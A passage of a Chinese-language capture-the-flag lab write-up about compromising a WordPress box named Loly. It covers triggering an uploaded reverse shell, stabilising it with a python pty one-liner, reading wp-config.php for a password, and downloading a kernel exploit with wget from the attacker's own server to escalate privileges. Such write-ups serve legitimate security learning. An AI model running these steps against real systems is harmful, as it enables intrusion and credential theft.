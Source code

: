访问这个URL，服务器会帮忙进行解析
```
http://loly.lc/wordpress/wp-content/banners/tmp.php
```

然后就连上了 reverse shell
![[QQ_1724113910926.png]]

使用以下命令来稳定 shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

拿到第一个 flag
![[QQ_1724114036749.png]]
## 3. 提权
查看当前系统版本，好像有点老，可以上网搜索是否有漏洞
![[QQ_1724114272726.png]]

确实有漏洞
https://www.exploit-db.com/exploits/45010

将其复制下来，并且本地搭建服务器
```
python3 -m http.server 80
```

在 reverse shell 上下载 C 源代码
```
wget http://192.168.45.233/tmp.c
```

但是无法编译？？？
![[QQ_1724115006026.png]]

这时查了下攻略，发现要去看 `wp-config.php` 文件。在 Wordpress 中，这是个重要文件，它包含了许多重要的信息。
```
cat /var/www/html/wordpress/wp-config.php
```

发现了一个很突兀的密码，loly is a beautiful girl ???
`wp-config.php`
![[QQ_1724115142579.png]]

于是查看用户，发现了这个 `loly` 用户
![[QQ_1724115221630.png]]

尝试用上面的密码登陆 `loly` 用户，成功
接着继续进行编译，然后就编译成功了 (???)
![[QQ_1724115304036.png]]

获得第二个 flag，结束

![[QQ_1724115404400.png]]
